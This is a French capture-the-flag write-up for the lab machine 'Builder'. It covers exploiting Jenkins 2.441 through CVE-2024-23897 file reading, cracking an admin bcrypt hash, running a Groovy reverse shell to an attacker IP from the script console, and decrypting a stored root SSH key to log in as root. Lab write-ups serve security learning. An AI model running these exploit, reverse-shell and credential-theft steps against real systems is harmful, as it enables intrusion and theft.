

<table style="border:none; width:100%;">
  <tr>
    <!-- Colonne gauche : logo -->
    <td style="border:none; text-align:center; vertical-align:middle; width:150px;">
      
    </td>
    <td style="border:none; text-align:center; vertical-align:middle;">
      <table style="margin:auto; border-collapse:collapse; border:1px solid #ddd;">
        <thead>
          <tr>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">Machine name</th>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">OS</th>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">IP</th>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">Difficulty</th>
          </tr>
        </thead>
        <tbody>
          <tr>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">Builder</td>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">Windows</td>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">10.10.11.10</td>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">Medium</td>
          </tr>
        </tbody>
      </table>
    </td>
  </tr>
</table>

## Users
```bash
- jennifer : **princess**
```

## Enumeration

### nmap

```bash
$ nmap -sC -sV -An -T4 -vvv -p- 10.10.11.10
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3eea454bc5d16d6fe2d4d13b0a3da94f (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJ+m7rYl1vRtnm789pH3IRhxI4CNCANVj+N5kovboNzcw9vHsBwvPX3KYA3cxGbKiA0VqbKRpOHnpsMuHEXEVJc=
|   256 64cc75de4ae6a5b473eb3f1bcfb4e394 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOtuEdoYxTohG80Bo6YCqSzUY9+qbnAFnhsk4yAZNqhM
8080/tcp open  http    syn-ack ttl 62 Jetty 10.0.18
|_http-title: Dashboard [Jenkins]
| http-robots.txt: 1 disallowed entry 
|_/
|_http-favicon: Unknown favicon MD5: 23E8C7BD78E8CD826C5A6073B15068B1
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Jetty(10.0.18)
```

## Foothold

### Jenkins 2.441 - port 8080

### Local File Inclusion - CVE-2024-23897
On trouve sur internet que Jenkins 2.441 est vulnérable à une LFI, permettant d'accéder à n'importe quel fichier sur la machine :
https://www.exploit-db.com/exploits/51993
```bash
$ python3 exploit.py -u http://10.10.11.10:8080                                                
Press Ctrl+C to exit
File to download:
> /etc/hosts
ff02::1	ip6-allnodes
ff02::2	ip6-allrouters
172.17.0.2	0f52c222a4cc
::1	localhost ip6-localhost ip6-loopback
ff00::0	ip6-mcastprefix
127.0.0.1	localhost
fe00::0	ip6-localnet
File to download:
> /etc/passwd
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
root:x:0:0:root:/root:/bin/bash
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
jenkins:x:1000:1000::/var/jenkins_home:/bin/bash
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
```

Dans le /etc/hosts, on trouve:
> 172.17.0.2	0f52c222a4cc

On en déduit que jenkins tourne dans un docker, au vu de l'ip en 172 et du hostname en hexadecimal.

Dans /etc/passwd, on trouve le dossier contenant les fichiers de Jenkins:
> jenkins:x:1000:1000::/var/jenkins_home:/bin/bash

Toujours à l'aide de la LFI, on tente de récupérer le fichier de configuration de Jenkins pour obtenir des credentials :
> /var/jenkins_home


En cherchant sur internet, je comprends que chaque utilisateur à un fichier config.xml contenant probablement le hachage de leur mot de passe.
> /var/lib/jenkins/users/jenkins_[udid]/config.xml

De plus, j'ai télécharger la version de Jenkins 2.441 que j'ai installé sur une machine virtuelle, afin de pouvoir observer correctement l'arborescence des fichiers.
Sur le dashboard de Jenkins, j'ai trouvé le nom d'utilisateur "jennifer" qui semble correspondre au compte administrateur.

En regardant de plus près dans les fichiers de mon installation de Jenkins, j'ai trouvé un fichier **/var/lib/jenkins/users/users.xml** contenant la liste des users et leur **uid**.
En dumpant ce fichier, on trouve l'uid de jennifer, et donc le nom du dossier:
> jennifer_12108429903186576833
```bash
> /var/jenkins_home/users/users.xml
<?xml version='1.1' encoding='UTF-8'?>
      <string>jennifer_12108429903186576833</string>
  <idToDirectoryNameMap class="concurrent-hash-map">
    <entry>
      <string>jennifer</string>
  <version>1</version>
</hudson.model.UserIdMapper>
  </idToDirectoryNameMap>
<hudson.model.UserIdMapper>
    </entry>
```
Enfin, je tente de récupérer le fichier **config.xml** de jennifer :
```bash
File to download:
> /var/jenkins_home/users/jennifer_12108429903186576833/config.xml
...
<?xml version='1.1' encoding='UTF-8'?>
  <fullName>jennifer</fullName>
      <seed>6841d11dc1de101d</seed>
  <id>jennifer</id>
  <version>10</version>
      <tokenStore>
          <filterExecutors>false</filterExecutors>
    <io.jenkins.plugins.thememanager.ThemeUserProperty plugin="theme-manager@215.vc1ff18d67920"/>
      <passwordHash>#jbcrypt:$2a$10$UwR7BpEH.ccfpi1tv6w/XuBtS44S7oUpR2JYiobqxcDQJeN/L4l1a</passwordHash>
```
J'ai obtenu le hachage de jennifer sur lequel j'ai pu effectuer une attaque par dictionnaire avec la liste rockyou.txt :
```bash
$ hashcat -m 3200 hash.txt ~/wordlists/rockyou.txt --show 
$2a$10$UwR7BpEH.ccfpi1tv6w/XuBtS44S7oUpR2JYiobqxcDQJeN/L4l1a:princess
```
On obtient finalement les credentials de **jennifer** nous permettant d'obtenir un accès administrateur sur l'interface web de Jenkins :
- jennifer : **princess**

### Jenkins Reverse Shell
http://10.10.11.10:8080/manage/script
```bash
String host="10.10.14.11";int port=1337;String cmd="bash";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();

-------------------

nc -lnvp 1337
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::1337
Ncat: Listening on 0.0.0.0:1337
Ncat: Connection from 10.10.11.10.
Ncat: Connection from 10.10.11.10:34418.

cat /var/jenkins_home/user.txt
7712.....64b9
```

## Privilege Escalation

### Root - SSH Private Key
https://devops.stackexchange.com/questions/2191/how-to-decrypt-jenkins-passwords-from-credentials-xml

On trouve un fichier **credentials.xml** contenant un secret chiffré :

`/var/jenkins_home/credentials.xml` :
```bash
<?xml version='1.1' encoding='UTF-8'?>
...
<com.cloudbees.plugins.credentials.SystemCredentialsProvider plugin="credentials@1319.v7eb_51b_3a_c97b_">
      <java.util.concurrent.CopyOnWriteArrayList>
            <privateKey>{AQAAABAAAAowLrfCrZx9baWliwrtC...........HaB1OTIcTxtaaMR8IMMaKSM=}</privateKey>
          </privateKeySource>
          <username>root</username>
          <usernameSecret>false</usernameSecret>
      </com.cloudbees.plugins.credentials.domains.Domain>
...
```

Après quelques recherches sur le web, on comprend que les informations contenus dans ce fichier correspondent à des mots de passe ou clés SSH chiffrés, associés à des utilisateurs. Sur l'interface graphique de Jenkins, on observe qu'une clé SSH semble enregistrée pour un utilisateur **root**.

Sur un forum en ligne, on nous explique que le secret dans la balise "<privateKey>" du fichier `credentials.xml` peut etre déchiffré en se rendant dans la console disponible sur la GUI :
http://10.10.11.10:8080/script

Il suffit alors d'executer la commande suivante :  
> println(hudson.util.Secret.decrypt("{PRIVATE_KEY}"))

Ce qui nous donne :  
> println(hudson.util.Secret.decrypt("{AQAAABAAAAo...IcTxtaaMR8IMMaKSM=}"))

Sur le screenshot, on observe l'execution du script qui nous permet de récupérer une clé privée SSH :



### SSH as root

A l'aide de la clé SSH, on se connecte directement en tant que **root** sur la machine :

```bash
$ vim root.key
$ chmod 600 root.key 
$ ssh root@10.10.11.10 -i root.key
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-94-generic x86_64)
...
Last login: Mon Feb 12 13:15:44 2024 from 10.10.14.40
root@builder:~# ls
root.txt
root@builder:~# cat root.txt 
a9aa.....0396
```